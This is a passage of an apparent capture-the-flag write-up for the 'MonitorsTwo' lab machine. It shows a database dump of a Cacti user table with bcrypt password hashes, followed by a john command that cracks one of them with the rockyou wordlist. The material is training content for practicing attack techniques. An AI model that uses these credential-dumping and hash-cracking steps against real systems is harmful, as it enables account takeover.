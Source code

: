 ```bash
Database changed
MySQL [cacti]> show tables;
...
MySQL [cacti]> select * from user_auth;
+----+----------+--------------------------------------------------------------+-------+----------------+------------------------+----------------------+-----------------+-----------+-----------+--------------+----------------+------------+---------------+--------------+--------------+------------------------+---------+------------+-----------+------------------+--------+-----------------+----------+-------------+
| id | username | password                                                     | realm | full_name      | email_address          | must_change_password | password_change | show_tree | show_list | show_preview | graph_settings | login_opts | policy_graphs | policy_trees | policy_hosts | policy_graph_templates | enabled | lastchange | lastlogin | password_history | locked | failed_attempts | lastfail | reset_perms |
+----+----------+--------------------------------------------------------------+-------+----------------+------------------------+----------------------+-----------------+-----------+-----------+--------------+----------------+------------+---------------+--------------+--------------+------------------------+---------+------------+-----------+------------------+--------+-----------------+----------+-------------+
|  1 | admin    | $2y$10$IhEA.Og8vrvwueM7VEDkUes3pwc3zaBbQ/iuqMft/llx8utpR1hjC |     0 | Jamie Thompson | admin@monitorstwo.htb  |                      | on              | on        | on        | on           | on             |          2 |             1 |            1 |            1 |                      1 | on      |         -1 |        -1 | -1               |        |               0 |        0 |   663348655 |
|  3 | guest    | 43e9a4ab75570f5b                                             |     0 | Guest Account  |                        | on                   | on              | on        | on        | on           | 3              |          1 |             1 |            1 |            1 |                      1 |         |         -1 |        -1 | -1               |        |               0 |        0 |           0 |
|  4 | marcus   | $2y$10$vcrYth5YcCLlZaPDj6PwqOYTw68W1.3WeKlBn70JonsdW/MhFYK4C |     0 | Marcus Brune   | marcus@monitorstwo.htb |                      |                 | on        | on        | on           | on             |          1 |             1 |            1 |            1 |                      1 | on      |         -1 |        -1 |                  | on     |               0 |        0 |  2135691668 |
+----+----------+--------------------------------------------------------------+-------+----------------+------------------------+----------------------+-----------------+-----------+-----------+--------------+----------------+------------+---------------+--------------+--------------+------------------------+---------+------------+-----------+------------------+--------+-----------------+----------+-------------+
3 rows in set (0.066 sec)
```

> We found 2 accounts with password hashes
{: .prompt-info }

```
admin:$2y$10$IhEA.Og8vrvwueM7VEDkUes3pwc3zaBbQ/iuqMft/llx8utpR1hjC
marcus:$2y$10$vcrYth5YcCLlZaPDj6PwqOYTw68W1.3WeKlBn70JonsdW/MhFYK4C
```

Cracking these hashes with `john` reveals the password for `marcus` after a few minutes
```bash
john cactiadmin.hash --wordlist=/usr/share/wordlists/rockyou.txt
```
